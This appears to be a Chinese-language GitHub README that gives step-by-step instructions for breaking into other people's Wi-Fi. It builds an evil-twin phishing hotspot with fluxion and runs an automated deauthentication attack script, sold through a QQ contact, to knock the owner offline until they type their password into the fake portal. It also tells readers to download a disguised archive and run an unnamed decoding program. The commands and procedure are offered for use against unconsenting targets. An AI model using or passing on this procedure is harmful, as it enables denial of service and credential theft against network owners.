


# wifi-attack
## 1. 环境准备
虚拟机开机密码 ： 1
   
硬件装备：电脑一台，内存8G，硬盘空闲60G，网卡：两张2.4G频段网卡如3070，一张5G频段网卡，淘宝去买搜索【kali网卡5G】


相关软件包下载：
**************************************************************************************************
「kali-i386-share-ver-no-script-2022」等文件 https://www.aliyundrive.com/s/F4Ya3e6gj5q 提取码: 3t3o
点击链接保存，或者复制本段内容，打开「阿里云盘」
**************************************************************************************************

由于阿里云盘分享限制，压缩包格式已经过伪装，下载后需用win10及以上系统运行以下解析程序解析出真正的格式【下载开始时和下载完成后别随便改文件名称，否则解析失败】


<font color=#FF0000>**解析后，解压直接用VMware打开该虚拟机即可，啥环境都已经安装好了，开箱即用**</font>


## 2.【破解步骤1 创建钓鱼热点，此步骤网上教程一大把，以下为参考】
连接网卡【<font color=#FF0000>**钓鱼用3070网卡钓2.4G网络**</font>】


1. 进入虚拟机桌面鼠标左键双击【wifi-hack】文件夹，找到并打开【fluxion5.9】文件夹


2. 右键单击在这里打开终端


3. 输入 : [sudo su] 回车提取root权限
   sudo su


4. 执行命令 [./fluxion.sh] 回车
   ./fluxion.sh


5.这里选择 [2]
 ***********************************************************

 ***********************************************************

6. 这里选择 [1]
 ***********************************************************

 **********************************************************

7. 看见弹出扫描WiFi信息差不多了就关掉它


8. 选择一个你要破解的WiFi的序号，回车【绿色代表有人上网，可轻松抓包】


9. 这里选择 [2] 跳过
 **********************************************************

 **********************************************************

10. 这里选择  [2]
 **********************************************************

 *********************************************************

11. 这里选择 [3]
 *********************************************************

 ********************************************************

12. 这里选择 [3]
 ********************************************************

 ********************************************************

13. 这里选择 [1]
 ********************************************************

 *******************************************************

14. 这里选择 [2]
 *******************************************************

 *******************************************************

15. 等抓到包了，吧左下角的那个窗口手动关掉


16. 这里选择 [1]
 *******************************************************

 *******************************************************

17. 这里选择 [1]
 *******************************************************

 *******************************************************

18. 这里输入 [y]  回车
 *******************************************************

 *******************************************************

19. 这里选择 [2]
 *******************************************************

 ******************************************************

20. 这里选择 [2]
 ******************************************************

 ******************************************************

21. 这里选择 [2]
 ******************************************************

 ******************************************************

22. 这里选择 [1]
 ********************************************************

 ********************************************************

23. 这里选择 [1]
 ********************************************************

 *******************************************************

24. 这里选择 [3]
 *******************************************************

 *********************************************************

25. 这里选择 [1]
 *********************************************************

 *********************************************************

26. 这里选择 [1]
 *********************************************************

 *********************************************************

27. 这里输入 [3] 回车
 *********************************************************

 **********************************************************

28. 等一小哈钓鱼WiFi就创建好了...

[一共有 6 个小的弹窗 ]
    
[如果这些弹窗消失了，表示钓鱼成功，密码会在屏幕上提示给你..]


29. 钓鱼成功页面

【密码位置：/home/kali/桌面/wifi-hack/fluxion-full-ver-qq-qun/fluxion-5.9/attacks/Captive\ Portal/netlog/xxx-xxx-xxx.log】


## 3.【破解步骤2  运行自动化脚本攻击目标WiFi “双频路由器需要2台机器一起攻击，一台攻击2.4G，另一台攻击5G让目标主人完全无法使用WiFi”】
 **********************************************************************************
*                                         脚本需支付15元购买                                      *
*                                              本教程重头戏                                            *
*                                            直接决定成功率                                           *
*                                   脚本购买加QQ：1725099638                              *
 **********************************************************************************
连接网卡【<font color=#FF0000>**攻击网卡：3070网卡攻击2.4G网络。5G网卡攻击5G网络**</font>】


1. 打开其它的虚拟机


2. 鼠标左键单击桌面的 [wifi-hack] 文件夹 ,,, 然后 鼠标右键单击在这里打开终端


3. 输入 [sudo su] 提取root权限
   sudo su


4. 查看网卡【无线网卡一般叫wlan0..wlan1...等等】
   ip a


5. 把无线网卡设置为监听模式
```shell
airmon-ng check kill
airmon-ng start wlan0
【备用命令】
airmon-ng check kill
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up
```


6. 再次查看网卡信息 [wlan0mon 就是监听模式下网卡的名字，记住它]
```shell
ip a
```
 ********************************************************

 ********************************************************

7. 查看攻击脚本
```shell
ll
```
 *********************************************************
总用量 12
-rw-r--r-- 1 kali kali 10868  8月 27 16:58 hack_wifi_by_mdk_new.sh


 ********************************************************

8. 扫描一下WiFi信号,, 差不多了就键盘按下 [Ctrl + c] 组合键 结束扫描
```shell
[2.4G]  这是扫描2.4G信号的命令
airodump-ng wlan0mon --band bg
[5G]  这是扫描5G的
airodump-ng wlan0mon --band a
```
 *******************************************************
```shell
CH 14 ][ Elapsed: 12 s ][ 2022-08-27 18:11
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
5C:DE:34:AE:D3:CD  -72        1        1    0   6  540   WPA2 CCMP   PSK  CMCC-fkVY
34:78:39:D8:86:90  -49        7        0    0   5  130   WPA2 CCMP   PSK  CU_NEFe
34:CE:00:2C:B9:A0  -59        8       33    0  10  130   WPA2 CCMP   PSK  🍇
```
 ******************************************************
<font color=#FF0000>**找到你【破解步骤1】钓鱼的那个WiFi的MAC地址并复制下来**</font>


9. 运行脚本开启自动化攻击
[注意网卡的名字，和上一步扫描出来的WiFi的MAC地址  ，，别写错了]
```shell
bash hack_wifi_by_mdk_new.sh wlan0mon 02:3A:7C:6A:83:DB
```


10. 这里输入的是探测对方路由器是否重启的间隔时间 [推荐 300 秒，，就是每5分钟探测一次对方路由器是否重启过，也可以自定义你喜欢的时间，<font color=#FF0000>但是建议必须大于60秒效果才好</font>]
 ******************************************************
How long do you want zhe hack WIFI inervel time [sec]:


 ******************************************************

11. 这里看你攻击的WiFi是2.4G还是5G，对应选择就行了【注意：5G需要支持5G的网卡，如8812au】
 ******************************************************
Select one type what you want to hack
 ************************************
1.        2.4G                              *
2.        5G                                 *
 ************************************
Please select: 1


 ******************************************************

12. 到这里自动攻击就开始了，对方直接不能用WiFi了【重启路由器**也没用**】  ......


13. 观察左上角的红色弹窗，如果在跑就表示一直在攻击。。。


## 4.【破解步骤3  定期观察钓鱼状态】
隔一段时间观察一下钓鱼的那台虚拟机，如果6个小的弹窗消失了，说明钓鱼成功，根据提示去看密码就行 .......记得回来把攻击脚本停止掉

小提示：看手机WiFi列表，如果钓鱼WiFi信号消失了也证明钓鱼成功，赶快去钓鱼那台虚拟机查看密码吧，记得关掉攻击脚本哦！！<font color=#FF0000>不然主人可能就要上门拜访您了</font>


注意：这款破解手段比较残忍、粗暴、耗时。几小时，几分钟，几天不等。。。
如果主人受不了攻击，破防了那会非常快得到密码

<font color=#FF0000>如何让主人快速破防？</font>开启脚本无差别自动化攻击即可，即使主人重启路由器信道发生改变，该脚本也会捕获新的信道并重新攻击，迫使加快他上钩给出密码，这是这款脚本的可怕之处，定期嗅探目标路由器的信道变化并加以攻击，如果对方把路由器关机，那么这款脚本就会每10分钟嗅探一次，一旦嗅探到路由器开机就会立即开启攻击 ！！！！！！

<font color=#FF00FF>假如不使用脚本，主人重启路由器，信道变化了，那么你得手动调整信道进行洪水攻击，而且你不知道主人啥时候重启了路由器对不对，只能定期手动扫描WiFi看看信道变成了什么，再手动调整攻击命令使攻击生效，有了脚本就不需要你操心了，它会帮你解决自动化攻击，重启路由器也逃不过！！！！全过程都是自动化的~~~~</font>

总结：巧用自动化攻击脚本，B站up主：【奥力元给力奥】  让你不管到哪都能连接WiFi，欢迎━(*｀∀´*)ノ亻!  一键三连 ！！！！！

温馨提醒：切勿将脚本用于恶意攻击等非法用途，否则一切后果自负！！！
​

